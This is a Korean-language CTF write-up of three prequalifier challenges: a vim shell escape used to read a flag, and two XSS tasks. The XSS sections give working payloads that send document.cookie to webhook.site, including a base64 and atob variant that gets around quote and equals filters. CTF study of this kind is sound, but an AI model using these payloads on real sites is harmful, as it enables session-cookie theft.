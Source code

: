 # 2022 Cyber-Guardians CTF Prequal

## Dreamhack Profile
Nickname: suk-6

Email: wsuk.nam@gmail.com

## Solve list
A - Sanity Check!

I - xss-1.0

J - xss-1.3

### Sanity Check!
Netcat으로 원격 서버에 접속하였더니 vim 편집창이 나온다.

vim 편집기에서 !를 붙이고 Shell 명령어를 작성하면 실행되는 기능을 활용하여 루트 디렉토리의 파일을 조회하고 head 명령어로 flag 파일을 불러왔다.

### xss-1.0
로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

flag 페이지에서 로컬 Chrome을 컨트롤 할 수 있는데 `location.href`를 이용하여 webhook.site로 리다이렉트 시켰다.

이 때 `document.cookie`를 이용하여 브라우저의 쿠키를 URI에 담아서 보냈다.

```<svg/onload=location["href"]="https://webhook.site/webhook-id/?flag="+document["cookie"]>```

### xss-1.3
xss-1.0과 같이 로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

다만, `'`, `"`, `=`를 필터링하고 있다.

그러므로 xss-1.0에서 사용한 코드를 base64 인코딩 하여 필터링을 우회하고, Flask를 지나 크롬에서 로딩 될 때 디코딩되어 작동되도록 작성하였다.

```
<svg/onload=location.href=`https://webhook.site/webhook-id?flag=`.concat(document.cookie)>

to base64(URL-safe) + JS Decoding Code

<script>document.write(atob(`PHN2Zy9vbmxvYWQ9bG9jYXRpb24uaHJlZj1gaHR0cHM6Ly93ZWJob29rLnNpdGUvd2ViaG9vay1pZD9mbGFnPWAuY29uY2F0KGRvY3VtZW50LmNvb2tpZSk-`))</script>
```